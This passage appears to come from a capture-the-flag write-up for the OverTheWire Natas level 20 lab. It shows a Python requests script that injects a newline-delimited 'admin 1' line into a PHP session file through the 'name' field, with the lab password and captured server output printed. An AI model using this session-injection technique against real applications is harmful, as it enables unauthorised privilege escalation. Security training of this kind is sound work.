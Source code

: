 Upon reading this data, the `myread` function will interpret the second line as setting the `admin` flag to `1`, thereby granting admin privileges.

This logic can be exploited by making a POST request to the server with the crafted `name` parameter to manipulate the session file. Below is an example of how to execute this exploit using Python and the `requests` library:


```bash
import requests

target = 'http://natas20.natas.labs.overthewire.org?debug=true'
auth = ('natas20','p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw')

session = requests.Session()

r = session.get(target, auth=auth)
print(r.text)

r = session.post(target, auth=auth, data={'name':'admin\nadmin 1'})
print(r.text)


r = session.get(target, auth=auth)
print(r.text)
```



```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas20", "pass": "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw" };</script></head>
# <body>
# <h1>natas20</h1>
# <div id="content">
# DEBUG: MYREAD ops2rulih80ovmo6r6fabh7r05<br>DEBUG: Session file doesn't exist<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.    
# <form action="index.php" method="POST">
# Your name: <input name="name" value=""><br>
# <input type="submit" value="Change name" />
# </form>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
# DEBUG: MYWRITE ops2rulih80ovmo6r6fabh7r05 <br>DEBUG: Saving in /var/lib/php/sessions/mysess_ops2rulih80ovmo6r6fabh7r05<br>
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
```
